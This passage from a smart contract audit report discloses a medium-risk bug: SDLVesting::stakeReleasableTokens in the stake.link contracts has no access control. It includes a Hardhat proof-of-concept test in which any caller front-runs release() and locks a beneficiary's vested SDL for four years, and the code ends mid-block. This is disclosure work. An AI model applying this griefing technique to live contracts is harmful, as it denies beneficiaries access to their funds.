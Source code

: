 **Lead Auditors**

[Immeas](https://twitter.com/0ximmeas)

[InAllHonesty](https://x.com/0xInAllHonesty)

---

# Findings
## Medium Risk


### Missing access control in `SDLVesting::stakeReleasableTokens`

**Description:** The [`SDLVesting::stakeReleasableTokens`](https://github.com/stakedotlink/contracts/blob/3462c0d04ff92a23843adf0be8ea969b91b9bf0c/contracts/vesting/SDLVesting.sol#L108) function is meant to be driven by a trusted staking bot, run by the Stake.Link team, to periodically take any newly-vested SDL and lock it into the SDLPool under the beneficiary’s chosen duration. However, it currently has no access control.

Thus anyone can call `SDLVesting::stakeReleasableTokens`. Using this an attacker can front run calls to `SDLVesting::release` by locking the beneficiaries tokens.

**Impact:** An adversary can repeatedly deny the beneficiary access to vested tokens by front running their `release()` transactions.

**Proof of Concept:**
```javascript
  it('should prevent griefing attacks', async () => {
      const { signers, accounts, start, vesting, sdlPool, sdlToken } = await loadFixture(deployFixture)

      await vesting.connect(signers[1]).setLockTime(4) // 4-year lock
      await time.increase(DAY)

      const releasableAmount = await vesting.releasable()
      console.log("Tokens victim wanted as liquid:", fromEther(releasableAmount), "SDL")

      await vesting.stakeReleasableTokens() //Someone frontruns and forces staking
      const lockIdAfter = await sdlPool.lastLockId()
      console.log("Frontrun with `stakeReleasableTokens`, position created with ID:", lockIdAfter.toString())
      console.log("Position owner:", await sdlPool.ownerOf(lockIdAfter), "(vesting contract)")

      // Get the staking position details
      const locks = await sdlPool.getLocks([lockIdAfter])
      const lock = locks[0]

      const currentTime = await time.latest()
      const lockDuration = Number(lock.duration)
      const unlockInitiationTime = Number(lock.startTime) + lockDuration / 2
      const fullUnlockTime = Number(lock.startTime) + lockDuration

      console.log("Base SDL staked:", fromEther(lock.amount), "SDL")
      console.log("Boost received:", fromEther(lock.boostAmount), "SDL")
      console.log("Total effective staking power:", fromEther(lock.amount + lock.boostAmount), "SDL")
      console.log("Lock duration:", lockDuration / (365 * 86400), "years")

      console.log("Years until unlock initiation allowed:", (unlockInitiationTime - currentTime) / (365 * 86400))
      console.log("Years until full withdrawal possible:", (fullUnlockTime - currentTime) / (365 * 86400))

```